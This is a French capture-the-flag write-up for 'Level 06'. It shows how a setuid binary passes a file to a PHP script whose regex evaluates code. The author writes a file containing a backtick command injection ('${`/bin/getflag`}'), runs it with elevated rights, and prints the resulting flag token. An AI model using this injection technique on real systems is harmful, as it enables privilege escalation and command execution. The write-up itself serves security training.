# Level 06

Quand on se connecte avec l'utilisateur `level06`, on trouve 2 fichiers dans son home:

```shell
 ls -la
total 24
[...]
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

Le binaire `level06` : après une décompilation et une examination du code, il ne fait rien d'autre qu'appeler `level06.php` en prenant comme paramètre un nom de fichier à executer dans le php.

`Level06.php` execute des regex sur le contenu du fichier passé en argument. Après de nombreux tests, on comprend que l'on peux passer des variables php dans le fichier comme `$z`, qui seront remplacées avant l'execution de la fonction `y()`

```shell
~ echo '[x $z]' > /tmp/test
~ chmod 777 /tmp/test
~ ./level06 /tmp/test coucou
coucou
```

Ici `$z` est remplacé par coucou. Nous constatons que nous pouvons faire passer une commande shell à la place de la variable `$z`. Il ne nous reste plus qu'à faire cela avec la commande `getflag`

```shell
~ echo '[x ${`/bin/getflag`}]' > /tmp/test
~ chmod 777 /tmp/test
~ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

